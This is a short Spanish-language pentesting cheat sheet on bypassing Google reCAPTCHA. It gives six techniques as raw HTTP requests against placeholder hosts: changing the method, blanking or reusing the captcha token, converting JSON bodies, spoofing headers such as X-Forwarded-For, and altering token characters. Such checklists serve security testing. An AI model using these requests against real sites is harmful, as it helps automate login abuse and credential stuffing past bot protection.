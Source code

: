 # Bypass Captcha (Google reCAPTCHA)

1 - Intente cambiar el método de solicitud, por ejemplo POST a GET

Respuesta del servidor:

    POST / HTTP 1.1
    Host: host.com
    ...

    _RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=target123
    
Cambiando el método a GET

    GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=target123 HTTP 1.1
    Host: host.com
    ...
    
2 - Intenta eliminar el valor del parámetro captcha

    POST / HTTP 1.1
    Host: host.com
    ...

    _RequestVerificationToken=&_Username=daffa&_Password=target123
    
3 - Intente reutilizar el antiguo token de captcha 

    POST / HTTP 1.1
    Host: host.com
    ...

    _RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=target123
    
4 - Convierta los datos JSON en un parámetro de solicitud normal 

Respuesta del servidor:

    POST / HTTP 1.1
    Host: host.com
    ...

    {"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"test","_Password":"target123"}
    
Convirtiendo la respuesta a solicitud normal
 
    POST / HTTP 1.1
    Host: host.com
    ...

    _RequestVerificationToken=xxxxxxxxxxxxxx&_Username=test&_Password=target123
    
5 - Pruebe el Header personalizado para Bypassing Captcha   
 
    X-Originating-IP: 127.0.0.1
    X-Forwarded-For: 127.0.0.1
    X-Remote-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    
6 - Cambie algunos caracteres específicos del parámetro captcha y vea si es posible eludir la restricción

Respuesta del servidor:

    POST / HTTP 1.1
    Host: host.com
    ...

    _RequestVerificationToken=xxxxxxxxxxxxxx&_Username=test&_Password=target123
    
Prueba esto para Bypass

    POST / HTTP 1.1
    Host: target.com
    ...

    _RequestVerificationToken=xxxdxxxaxxcxxx&_Username=test&_Password=target123
